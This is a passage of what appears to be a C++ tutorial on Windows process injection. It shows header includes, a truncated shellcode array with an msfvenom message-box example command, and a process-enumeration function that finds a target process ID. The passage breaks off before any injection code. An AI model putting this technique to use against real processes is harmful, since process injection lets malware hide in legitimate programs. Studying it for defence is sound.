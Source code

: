 - **iostream** - Standard Input/Output
- **Windows.h** - For interacting with the Windows API
- **tlhelp32.h** - For managing processes

```C++
#include <iostream>
#include <windows.h>
#include <tlhelp32.h>
```

&nbsp;

## **Defining the payload**

This is where the payload that will be injected into the specified process will be defined

```C++
unsigned char payload[] = {
    // Example: msfvenom -p windows/x64/messagebox TEXT="Injected" TITLE="Hello" -f c
    0xfc, 0x48, 0x83, 0xe4, 0xf0, /* ...etc... */
};
```

&nbsp;

## **GetProcessID Function**

This function takes the name of a process and searches for the process by name by creating a snapshot of all processes, then iterating through the list of processes. If the process is found it will return the process ID of the specified process (DWORD)

&nbsp;

```C++
DWORD GetProcessID(const std::wstring& processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        std::wcerr << L"CreateToolhelp32Snapshot failed. Error: " << GetLastError() << std::endl;
        return 0;
    }

    PROCESSENTRY32 pe;
    pe.dwSize = sizeof(PROCESSENTRY32);

    if (!Process32First(hSnapshot, &pe)) {
        std::wcerr << L"Process32First failed. Error: " << GetLastError() << std::endl;
        CloseHandle(hSnapshot);
        return 0;
    }

    DWORD processID = 0;
    do {
        if (processName == pe.szExeFile) {
            processID = pe.th32ProcessID;
            break;
        }
    } while (Process32Next(hSnapshot, &pe));

    CloseHandle(hSnapshot);

    if (processID == 0) {
        std::wcout << L"Process not found." << std::endl;
    }
    else {
        std::wcout << L"Process ID of " << processName << L" is: " << processID << std::endl;
    }

```